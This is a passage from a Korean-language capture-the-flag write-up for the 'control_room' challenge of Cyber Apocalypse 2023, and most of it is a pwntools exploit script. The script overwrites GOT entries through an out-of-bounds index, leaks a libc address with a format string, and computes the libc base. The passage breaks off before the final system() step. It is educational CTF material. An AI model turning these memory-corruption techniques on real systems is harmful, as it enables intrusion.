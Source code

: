 ```python
p.interactive()
```

나는, 71만큼 떨어진 곳의 `ret_addr`을 통해, libc_leak을 진행하였다.

![image](/assets/images/Cyber Apocalypse 2023 - The Cursed Mission/control_room/control_room8.png)

system함수의 주소를 구하여, 이제 익스코드를 작성해보도록 하자.

## exploit

```python
from pwn import *

def slog(k, v): return success(f" : ".join([k, hex(v)]))

p = process('./control_room_patched')
#p = remote('165.232.98.59', 32169)
e = ELF('./control_room_patched')
libc = ELF('./libc.so.6')

def write(n1,n2,off):
    sleep(0.1)
    p.sendline(b"1")
    p.sendlineafter(b'number [0-3]: ',str(off).encode())
    p.sendlineafter(b'Thrust: ',str(n1).encode())
    p.sendlineafter(b'atio: ',str(n2).encode())
    p.sendlineafter(b'(y/n) \n',b"y")

#context.log_level="debug"

payload = b'A' * 0x100
p.sendlineafter(b'Enter a username: ', payload)
p.sendlineafter(b'size: ', b'256')
payload = b'A'*0x9F
p.sendlineafter(b'username: ', payload)

main = e.symbols['main']
strlen_plt = 0x000000000405040

engines = e.symbols['engines']
printf_plt = e.plt['printf']
slog("engines", engines)
slog("main", main)
slog("printf_plt", printf_plt)
slog("strlen_plt", strlen_plt)
strlen_offset = -(engines - strlen_plt) // 0x10
 
p.sendline(b"5")
p.sendlineafter(b'role: ',b"1")

write(printf_plt,"-",-14)# strlen -> printf
write(e.symbols['user_register'],"-",-7)#exit -> user_register

p.sendline(b'q')
payload = f'%{71}$p'
p.sendlineafter(b'username: ', payload.encode())

p.recvuntil(b"0x")
ret_addr = int("0x"+p.recvn(12).decode(), 16)
slog("leak", ret_addr)  
lb = ret_addr - (libc.symbols['__libc_start_main']+128)
slog("lb", lb)

```